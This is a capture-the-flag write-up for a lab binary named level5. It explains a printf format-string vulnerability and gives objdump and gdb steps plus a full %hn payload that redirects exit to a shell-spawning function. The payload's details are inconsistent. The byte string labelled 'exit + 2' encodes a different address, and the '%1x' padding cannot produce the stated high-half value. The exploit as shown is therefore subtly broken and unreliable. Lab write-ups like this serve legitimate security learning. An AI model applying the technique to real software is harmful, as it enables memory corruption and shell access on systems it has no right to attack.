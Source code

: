 

## LEVEL5 - EXPLANATION & SOLUTION

Video : https://www.youtube.com/watch?v=t1LH9D5cuK4

Vulnerability: Format String in printf

The printf function in the n function uses user-controlled input without specifying a format string. This creates a format string vulnerability, which allows arbitrary memory read/write operations. By exploiting this, we can redirect the exit function's address to the o function to execute a shell.

1. Find the Address of the o Function:

	- Use objdump to analyze the binary and find the address of the o function: 0x080484a4
	```bash
	objdump -t level5
	```

2. Find the Address of exit in n: 0x8049838

	- Locate the exit function's address used in the n function:
	```bash
	gdb ./level5
	disas n
	disas 0x80483d0
	```
	- we want:
	```bash
	set {int}0x8049838=0x080484a4
	```

3. Construct the Exploit:

	- The goal is to overwrite the address at 0x08049838 (used by exit) with the address of o (0x080484a4).
	- Use the %hn format specifier to write the lower and higher bytes of 0x080484a4 into memory in two steps:
		- Write 0x84a4 to the lower bytes.
		- Write 0x0804 to the higher bytes.

4. Payload

	- Example payload:
	```bash
	(python -c 'print("\x38\x98\x04\x08" + "\x40\x98\x04\x08" + "%33948x" + "%4$hn" + "%1x" + "%5$hn")'; cat) | ./level5
	```
	- `\x38\x98\x04\x08`: Address of exit (lower bytes).
	- `\x40\x98\x04\x08`: Address of exit + 2 (higher bytes).
	- `%33948x`: Pads output to write 0x84a4 (decimal 33948 + 8 for 2 adresses).
	- `%4$hn`: Writes the lower 2 bytes to the address at the 4th stack position.
	- `%5$hn`: Writes the upper 2 bytes to the address at the 5th stack position.

5. GDB

	```python
	run <<< $(python -c 'print("\x38\x98\x04\x08" + "\x40\x98\x04\x08" + "%33948x" + "%4$hn" + "%1x" + "%5$hn")')
	```
